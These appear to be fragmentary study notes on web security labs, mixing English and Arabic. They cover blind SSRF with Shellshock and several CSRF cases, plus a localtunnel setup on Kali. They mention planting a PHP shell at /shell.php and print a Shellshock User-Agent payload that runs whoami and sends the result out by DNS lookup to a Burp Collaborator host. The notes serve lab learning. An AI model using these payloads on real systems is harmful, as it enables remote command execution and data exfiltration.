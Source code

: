 When it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter.

B-

$ sudo npm install -g localtunnel

[sudo] password for kali:

added 22 packages in 7s

3 packages are looking for funding
run `npm fund` for details

┌──(kali㉿kali)-[~]
└─$ lt --port 3000

your url is: [https://tall-rocks-call.loca.lt](https://tall-rocks-call.loca.lt/)

C-

host [green-pots-go.loca.lt](http://green-pots-go.loca.lt/)

[green-pots-go.loca.lt](http://green-pots-go.loca.lt/) has address 193.34.76.44

## **Blind SSRF with Shellshock exploitation**

in User-Agent

User-Agent:`() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN` 

let  :  () => function  
         `{ :; };` ⇒ to bypass the exploit after function

the `Referer` header :

`Referer:`http://192.168.0.1:8080
Using the intruder to know th blue part

## **SSRF with whitelist-based input filter**

# **Cross-site request forgery (CSRF)**

## **CSRF vulnerability with no defenses**

no cheack to method and csrf and cookie 

## **CSRF where token validation depends on request method**

وجود ال 
method 
ضروري

## **CSRF where token validation depends on token being present**
